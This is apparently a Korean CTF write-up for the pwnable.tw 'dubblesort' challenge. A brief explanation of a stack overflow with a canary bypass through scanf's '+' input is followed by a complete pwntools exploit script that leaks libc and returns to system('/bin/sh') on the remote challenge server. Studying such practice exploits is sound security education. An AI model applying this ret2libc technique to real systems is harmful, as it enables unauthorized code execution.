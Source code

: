 ```yaml
---
title: "[pwnable.tw]dubblesort"
date: 2020-2-21
ctf: Pwnable.tw
layout: post
---
```


문제는 쉬웠는데 remote offset이랑 local offset이랑 다른거 생각 못해서 너무 삽질했다. 이거때문에 디버깅만 몇 십번 한거같다 ㅎ;

취약점은 원하는 만큼 입력이 가능하기 때문에 터진다. name을 입력받을 때 stack에 있는 값을 leak할 수 있고 Canary를 scanf에서 +,-로 bypass해주고 `system("/bin/sh")` 로 만들어주면 된다.

> exploit.py

```python
from pwn import *

# context.log_level = 'error'
e = ELF('./dubblesort')
# p = process('./dubblesort',aslr=True)
p = remote('chall.pwnable.tw',10101)
libc = ELF('./libc_32.so.6')
# libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':','A'*25)
p.recvuntil('A'*25)
leak = u32('\x00'+p.recv(3))
log.info('leak : {}'.format(hex(leak)))
libc_base = leak - 0x1b0000 # remote
#libc_base = leak - 0x1b2000 # local
log.info('libc_base : {}'.format(hex(libc_base)))

sla(':','35')

for i in range(24):
 	sla(':',str(0xaaaaaaaa))

sla(':','+') # Canary

for i in range(8):
 	sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.search('/bin/sh\x00').next()))

p.interactive()
```

